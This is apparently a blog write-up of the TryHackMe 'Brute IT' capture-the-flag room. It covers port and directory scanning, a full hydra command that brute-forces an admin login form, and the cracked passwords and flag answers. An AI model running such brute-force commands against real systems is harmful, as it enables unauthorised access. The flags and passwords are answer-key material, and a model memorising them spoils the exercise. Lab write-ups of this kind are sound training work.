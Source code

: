 ```yaml
---
title: "Brute IT - TryHackMe"
date: 2022-25-04
hero: "/images/hero-3.jpg"
excerpt: "Learn how to brute, hash cracking and escalate privileges in this box!"
timeToRead: 4
authors:
  - Zidan
---
```


[TryHackMe | Brute IT](https://tryhackme.com/room/bruteit)

In this box you will learn about:

- Brute-force
- Hash cracking
- Privilege escalation

---

## Before attacking, let's get information about the target

### Search for open ports using nmap, how many ports are open?

```bash
Desktop/TryHackMe/brut_it » nmap -A -vv 10.10.93.226 -oN nmap_result
```

![./images/Untitled.png](./images/Untitled.png)

```bash
2 ports are open.
```

### What version of SSH is running?

```bash
OpenSSH 7.6p1
```

![./images/Untitled1.png](./images/Untitled1.png)

### What version of Apache is running?

```bash
2.4.29
```

![./images/Untitled2.png](./images/Untitled2.png)

### Which Linux distribution is running?

```bash
ubuntu
```

![./images/Untitled3.png](./images/Untitled3.png)

### Search for hidden directories on web server, what is the hidden directory?

```bash
Desktop/TryHackMe/brut_it » gobuster -u 10.10.93.226 -w /opt/directory-list-2.3-medium.txt
```

![./images/Untitled4.png](./images/Untitled4.png)

```bash
# Hidden directory 
/admin
```

---

## Find a form to get a shell on SSH.

### What is the user:password of the admin panel?

![./images/Untitled5.png](./images/Untitled5.png)

As you can see, there is the user and password in the form data, we can use this to brute-force the login with hydra.

Hidden message

![./images/Untitled6.png](./images/Untitled6.png)

```bash
# Hydra command (Pretty straightforward)
hydra -l admin -P /opt/rockyou.txt 10.10.93.226 http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:Username or password invalid"
```

![./images/Untitled7.png](./images/Untitled7.png)

```bash
# Credentials 
admin:xavier
```

### Crack the RSA key you found, what is John's RSA Private Key passphrase?

![./images/Untitled8.png](./images/Untitled8.png)

```bash
# Password for the private key is
rockinroll
```

### user.txt

```bash
THM{a_password_is_not_a_barrier}
```

![./images/Untitled9.png](./images/Untitled9.png)

### Web flag

![./images/Untitled10.png](./images/Untitled10.png)

```bash
THM{brut3_f0rce_is_e4sy}
```

---

### Find a form to escalate your privileges, what is the root's password?

```bash
# Password for the root user
football
```

![./images/Untitled11.png](./images/Untitled11.png)

### Root.txt

```bash
THM{pr1v1l3g3_3sc4l4t10n}
```

![./images/Untitled12.png](./images/Untitled12.png)
